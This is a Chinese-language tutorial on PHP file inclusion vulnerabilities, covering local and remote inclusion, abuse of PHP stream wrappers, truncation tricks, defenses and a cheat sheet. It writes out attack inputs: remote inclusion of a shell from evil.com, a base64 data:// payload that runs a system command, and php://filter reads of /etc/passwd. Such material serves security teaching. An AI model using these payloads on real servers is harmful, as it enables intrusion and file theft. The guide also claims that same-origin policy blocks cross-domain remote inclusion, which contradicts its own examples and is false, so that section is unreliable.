


# 文件包含漏洞与代码/命令执行完全指南

## 1. 文件包含漏洞概述

### 1.1 什么是文件包含漏洞

文件包含漏洞是指应用程序在加载文件时，没有对用户可控的文件路径进行充分验证，导致攻击者可以包含并执行恶意文件。这种漏洞通常出现在需要动态加载文件的功能中，如模板引擎、语言包切换、日志查看等。

### 1.2 文件包含漏洞的危害

- 读取服务器敏感文件（配置文件、日志文件、密码文件等）
- 执行恶意代码获取服务器控制权
- 远程包含恶意文件进行攻击
- 结合文件上传漏洞进行利用
- 获取服务器权限，进行横向移动

### 1.3 文件包含函数

PHP提供了四个用于包含文件的函数：

```php
<?php
// include：包含文件，如果文件不存在会产生警告，继续执行
include "tz.php";

// include_once：与include相同，但只会包含一次，避免重复包含
include_once "tz.php";

// require：包含文件，如果文件不存在会产生致命错误，停止执行
require "tz.php";

// require_once：与require相同，但只会包含一次
require_once "tz.php";
?>
```

**函数区别**：

| 函数 | 文件不存在时 | 重复包含 | 返回值 |
|------|------------|---------|--------|
| include | 警告 | 每次都包含 | 成功返回1，失败返回0 |
| include_once | 警告 | 只包含一次 | 成功返回1，失败返回0 |
| require | 致命错误 | 每次都包含 | 成功返回1，失败停止 |
| require_once | 致命错误 | 只包含一次 | 成功返回1，失败停止 |

### 1.4 文件包含漏洞原理

问题出在被包含的文件可以是任意格式、任意文件，都会尝试去执行。如果用户上传的文件中存在恶意的PHP代码，并且这个程序`include`或`require`后面的文件路径可以被操控，那么就存在文件包含漏洞。

**漏洞触发条件**：

1. 使用了文件包含函数（include/require等）
2. 包含的文件路径用户可控
3. 没有对文件路径进行充分验证



---

## 2. 文件包含利用方式

### 2.1 本地文件包含（LFI）

当服务器存在文件包含漏洞，且只能包含服务器本地的文件时，称为本地文件包含（Local File Inclusion）。

**利用场景**：

1. **读取敏感文件**：
   ```
   /etc/passwd
   /etc/shadow
   /var/log/apache2/access.log
   ```

   

2. **包含上传的文件**：

   - 如果服务器允许上传文件，可以上传包含PHP代码的文件
   - 通过文件包含漏洞执行上传的恶意文件

3. **包含日志文件**：
   - Apache/Nginx日志文件：`/var/log/apache2/access.log`
   - 需要有日志文件的可读权限
   - 默认情况下日志文件是644权限，可以直接读取

4. **包含session文件**：
   - PHP session文件通常存储在`/tmp/sess_[sessionid]`
   - 如果session中存储了用户可控的数据，可以注入PHP代码

### 2.2 远程文件包含（RFI）

当服务器允许包含远程文件时，称为远程文件包含（Remote File Inclusion）。

**前提条件**：
- `allow_url_fopen = On`
- `allow_url_include = On`

**利用方式**：
```
http://evil.com/shell.txt
http://evil.com/shell.php
```

### 2.3 伪协议利用

PHP可以将其他协议能访问的东西封装过来，被导入，这种封装方式也叫伪协议。

在`php.ini`里有两个重要的参数：
- `allow_url_fopen`：默认值是ON。允许URL里的封装协议访问文件
- `allow_url_include`：默认值是OFF。不允许包含URL里的封装协议包含文件

#### 2.3.1 file伪协议

- 可以读取本地文件
- 语法：`file://文件路径`
- 示例：`include $_GET['file'];` 访问 `file:///etc/passwd`

#### 2.3.2 http或ftp伪协议

- 需要开启：
  ```php
  allow_url_fopen = On
  allow_url_include = On
  ```
- 如果没开启会报错
- 开启后可以让服务器帮我们去打开对应页面

#### 2.3.3 php://input伪协议

- 前提条件：
  ```php
  allow_url_include = On
  allow_url_fopen 不做要求
  ```
- `php://input`可以读取没有处理过的POST数据
- POST直接放完整的PHP代码就可以执行
- 此时`php://input`等同于POST提交的内容，在靶场环境中被`include`
- 可以让服务器执行任意命令

**allow_url_include与跨域同源关系**：

- `allow_url_include`控制是否允许远程文件包含（RFI）
- 开启后，`include`/`require`可以包含远程URL的文件
- **同源策略影响**：
  - `php://input`只能读取当前请求的POST数据
  - 不能读取其他域的POST数据（受同源策略限制）
  - 只能包含与目标服务器同源的资源
- **跨域限制**：
  - 不同域名/IP属于不同源
  - 即使`allow_url_include=On`，也无法跨域包含
  - 远程文件必须与目标服务器在同源策略允许范围内

**实际利用场景**：
- 同一服务器上的文件可以被包含
- 不同服务器之间即使开启`allow_url_include`也无法跨域
- `php://input`不受同源策略限制（因为是读取本地请求数据）

**allow_url_include安全风险与VPN对比**：

| 特性 | VPN | allow_url_include |
|------|-----|-------------------|
| 工作层面 | 网络层/传输层 | 应用层（PHP） |
| 加密隧道 | 是 | 否 |
| 全局流量转发 | 是 | 否（仅PHP文件） |
| 网络层访问 | 完整 | 受限 |

- **远程文件包含漏洞（RFI）**：开启后攻击者可让服务器执行远程恶意代码
  ```php
  // 危险示例：用户可控的文件包含
  include $_GET['file'];  // 攻击者可传入 http://evil.com/shell.txt
  ```
- **服务器被控制**：如果有代码执行点，攻击者可执行任意命令，但只是应用层控制，不是网络层
- **数据泄露**：可能读取服务器本地文件，但不是"VPN式的流量转发"
- **生产环境必须关闭**：`allow_url_include = Off`，这是高危配置

**实现VPN效果需要的条件**：
- 网络层隧道（如OpenVPN、WireGuard）
- 全局路由转发
- 数据加密

#### 2.3.4 php://filter伪协议

- 可以将服务器上的任意文件以Base64方式读取
- 语法：`php://filter/convert.base64-encode/resource=文件路径`
- 常用于读取PHP源代码，获取敏感信息

#### 2.3.5 zlib://、bzip2://伪协议

- 可以将ZIP中的包含恶意代码的文件执行
- 用于包含压缩包中的文件

#### 2.3.6 data://伪协议

- 前提条件：
  ```php
  php版本大于等于php5.2
  allow_url_fopen = On
  allow_url_include = On
  ```
- 利用`data://`伪协议可以直接达到执行PHP代码的效果
- 示例：`data://text/plain/;base64,PD9waHAgc3lzdGVtKCJpcGNvbmZpZyIpOz8%2B`
- 如果Base64加密出现`+`需要做URL编码

#### 2.3.7 zip://伪协议

- 压缩流，可以访问压缩文件中的子文件
- 将子文件的内容当作PHP代码执行
- 不受`allow_url_fopen`、`allow_url_include`影响
- 文件路径必须为**绝对路径**
- ZIP文件后缀名可以改为其他如图片后缀
- `#`进行URL编码为`%23`

#### 2.3.8 glob://伪协议

- 用于显示指定目录下有哪些文件
- 语法：`glob://路径/*.*`

- 创建靶场代码

```php
<?php
$it = new DirectoryIterator($_GET['file']);
foreach($it as $f){
	printf("%s", $f->getFilename());
	echo '</br>';
}
?>
```

#### 2.3.9 其他伪协议

- 环境默认不自带模块，但遇到靶场或者发现`include`可以被使用时可以尝试：
  - `expect://`
  - `ssh2://`
  - `rar://`
  - `ogg://`

---

## 3. 截断绕过技术

有时候开发为了锁定目录或者锁定文件格式，会在`include`代码中添加前后缀，例如：

```php
<?php include("inc/" . $_GET['file'] . ".htm"); ?>
```

### 3.1 %00截断

- 需要PHP版本小于5.3.4
- 关闭`magic_quotes_gpc`功能
- `%00`为结束符，在filename后带上`%00`就可以截断末尾的`.htm`

### 3.2 ?或#截断

- 在URL中，`?`或者`#`表示后面的内容是参数或者是锚点，不会被当成访问地址
- 示例：`index.php?file=http://evil.com/shell.txt?`

### 3.3 超长截断

- Windows下目录最大长度为256字节
- Linux下目录最大长度为4096字节
- 使用`./`或者`.`可以构造超长路径，触发截断

---

## 4. 漏洞防御

1. **白名单验证**：只允许包含预定义的文件列表
2. **路径限制**：限制文件包含的目录范围
3. **关闭危险配置**：设置`allow_url_include = Off`
4. **输入过滤**：过滤`../`、`..\`、`http://`、`ftp://`等特殊字符
5. **使用绝对路径**：避免使用相对路径
6. **最小权限原则**：Web服务器进程使用最小权限运行

---

## 5. 速查表

### 5.1 文件包含伪协议速查

| 伪协议 | 功能 | 前提条件 | 示例 |
|-------|------|---------|------|
| file:// | 读取本地文件 | 无 | `file:///etc/passwd` |
| http:// | 包含远程文件 | allow_url_include=On | `http://evil.com/shell.txt` |
| ftp:// | 包含远程FTP文件 | allow_url_include=On | `ftp://evil.com/shell.txt` |
| php://input | 读取POST数据 | allow_url_include=On | `php://input` |
| php://filter | 读取文件（Base64） | 无 | `php://filter/convert.base64-encode/resource=/etc/passwd` |
| data:// | 执行代码 | allow_url_include=On | `data://text/plain/;base64,code` |
| zip:// | 包含ZIP中的文件 | 无 | `zip://path/file.zip%23shell.php` |
| zlib:// | 包含压缩文件 | 无 | `zlib://path/file.gz` |
| bzip2:// | 包含BZ2文件 | 无 | `bzip2://path/file.bz2` |
| glob:// | 列举目录文件 | 无 | `glob://path/*.*` |
